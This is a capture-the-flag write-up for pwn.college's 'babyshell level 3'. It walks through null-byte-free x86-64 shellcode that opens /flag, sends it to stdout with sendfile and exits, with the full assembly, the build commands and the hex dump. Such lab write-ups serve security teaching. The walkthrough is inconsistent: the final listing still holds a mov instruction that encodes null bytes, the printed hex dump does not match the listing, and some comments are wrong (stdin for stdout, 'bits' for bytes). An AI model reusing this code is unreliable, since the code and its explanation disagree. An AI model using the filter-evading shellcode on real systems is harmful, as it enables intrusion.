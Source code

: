 # Babyshell Level 3
Babyshell level 3 is the third challenge from pwn.college shellcoding module, it is pretty simple if you have watched the [videos for the module](https://www.youtube.com/watch?v=715v_-YnpT8&t=1968s).

## Solving The Challenge
Solving the challenge is pretty straight forward, we need to remove all null bytes from our shellcode, if there is any null bytes in our shellcode the program will fail.

The challenge took me a couple hours to solve since i had to find instructions that doesn't contains any null bytes in their opcode, i found the following informations :
	- a lot of time **mov** instructions have null bytes in their opcode, however with **rbx** that was not the case, so i used **rbx** a little in the final solution **instead of directly moving the value "/flag" into rdi**.
	- if your string ends with a **null character**, you can **replace it for a carriage return.**
	- **push and pop** can be easily used as a replacement for the **mov** instruction, just push the value on the stack and pop it back into any register you want, we will use this technique **a LOT**, this way we will spend less time trying to fix mov instructions with null bytes.

With the preceding informations we should have a really got view of how we will solve this challenge.

Let's start writing our shellcode, first we need a opened file descriptor to our flag file :
```x86asm
.global _start
_start:
.intel_syntax noprefix
	# Open file descriptor
	xor rsi, rsi 			# zero out rsi
	mov ebx, 0x67616c66		# mov value "galf" in ebx
	shl rbx, 8				# shift rbx one byte to the left this way we have place for a "/" in bl register
	mov bl, 0x2f			# mov 0x2f "/" inside bl
	push rbx				# push rbx onto the stack so it can be moved inside rdi
	mov rdi, rsp			# mov the value "/flag" which is now on top of the stack in rdi
	mov rax, 2				# sys_open syscall number
	syscall					# call into the kernel
```

When this code executes it should return a file descriptor to the "/flag" file. 

We moved the value "/flag" using ebx and a shift left because "/flag" is 5 bits long and moving a 5 bytes value inside rbx (8 bytes register), it would have certainly implied some null bytes in the opcode.

The value "**flag**", is 4 bytes wide which **fits inside ebx**, so we can just **move "flag" in ebx**, **shift it to the left 8 bits** so we have space to put "/" in the **lower 8 bits of ebx**, and mov **0x2f** in it which is "/" in ascii encoding.

The next step was to actually put rbx inside rdi since rbx is not on the x64 kernel calling convention, so just push the value inside rbx onto the stack and pop it back inside rdi, and you should have done the hardest part in this shellcode.

The next steps are exactly as in the last challenge (babyshell 2), but in this one we'll use **push and pop** instructions instead of using the **mov** instruction for the arguments.

Just like in the last challenge we will use the **sendfile systemcall** to read the file and send it to a file descriptor, in our case (**stdout**).

The function definition for sendfile is the following :
```c
ssize_t sendfile(int out_fd, int in_fd, off_t *offset, size_t count);
```
The function takes three arguments, the output file descriptor, the input file descriptor, the offset (in our case 0), and the count of bytes we wish to read.

On x86_64 linux the kernel interface uses the following register as calling convention  : **%rdi, %rsi, %rdx, %r10, %r8 and %r9.** Since **sendfile** had 4 arguments, we will need **%rdi, %rsi, %rdx, %r10**.

Let's write the second part of our shellcode :
```x86asm
.global _start
_start:
.intel_syntax noprefix
	# Open file descriptor
	xor rsi, rsi 			# zero out rsi
	mov ebx, 0x67616c66		# mov value "galf" in ebx
	shl rbx, 8				# shift rbx one byte to the left this way we have place for a "/" in bl register
	mov bl, 0x2f			# mov 0x2f "/" inside bl
	push rbx				# push rbx onto the stack so it can be moved inside rdi
	mov rdi, rsp			# mov the value "/flag" which is now on top of the stack in rdi
	mov rax, 2				# sys_open syscall number
	syscall					# call into the kernel

	# Read and output the file
	push 1					# push stdin file descriptor number on the stack (out_fd)
	pop rdi					# pop the value in rdi
	push rax				# push the return value from our last systemcall (filedescriptor) inside (in_fd)
	pop rsi 				# pop it inside rsi
	push 0					# push 0 on the stack (offset)
	pop rdx					# pop it inside rdx
	push 1024				# push the number of bytes we wish to read (count)
	pop r10					# pop the number of bytes we wish to read inside r10
	push 40					# push syscall number on the stack
	pop rax					# pop it back inside rax
	syscall 				# call into the kernel
```

With the preceding code, if you compile it, it should work and read the file, however we want a clean exit, to avoid any bug with our program when leaving or returning, for this reason we will write a last system call which will cause to exit the program cleanly :
```x86asm
.global _start
_start:
.intel_syntax noprefix
	# Open file descriptor
	xor rsi, rsi 			# zero out rsi
	mov ebx, 0x67616c66		# mov value "galf" in ebx
	shl rbx, 8				# shift rbx one byte to the left this way we have place for a "/" in bl register
	mov bl, 0x2f			# mov 0x2f "/" inside bl
	push rbx				# push rbx onto the stack so it can be moved inside rdi
	mov rdi, rsp			# mov the value "/flag" which is now on top of the stack in rdi
	mov rax, 2				# sys_open syscall number
	syscall					# call into the kernel

	# Read and output the file
	push 1					# push stdin file descriptor number on the stack (out_fd)
	pop rdi					# pop the value in rdi
	push rax				# push the return value from our last systemcall (filedescriptor) inside (in_fd)
	pop rsi 				# pop it inside rsi
	push 0					# push 0 on the stack (offset)
	pop rdx					# pop it inside rdx
	push 1024				# push the number of bytes we wish to read (count)
	pop r10					# pop the number of bytes we wish to read inside r10
	push 40					# push syscall number on the stack
	pop rax					# pop it back inside rax
	syscall 				# call into the kernel

	# Exit the program cleanly
	push 60 				# system call number
	pop rax					# pop system call number in rax
	push 69					# exit number
	pop rdi					# pop exit number in rdi
	syscall
```

And we should have a shellcode that contains no null bytes, just like the program asks us, let's make sure we did everything right :
```
$ gcc -w -nostdlib -static -o shell shellcode.s -masm=intel
$ ./shell
flag{fake_flag_for_testing}
$ objcopy --dump-section .text=solver shell
$ xxd solver
```

After running xxd on the resulting file you should see all the bytes in hexadecimal the shellcode actually has, if it contains any "00" we have failed the shellcode, if it don't we successfully achieved what we wanted to :
```
$ xxd solver
00000000: 4831 f6bb 666c 6167 48c1 e308 b32f 5348  H1..flagH..../SH
00000010: 89e7 6a02 580f 056a 015f 505e 4831 d26a  ..j.X..j._P^H1.j
00000020: 6441 5a6a 2858 0f05 6a3c 586a 2a5f 0f05  dAZj(X..j<Xj*_..
```

And it looks to me like we were able to evade this no null-bytes filter on the shellcode !

Let's prove it :
```
$ ./babyshell_level3 <solver
flag{fake_flag_for_testing}
```

:)
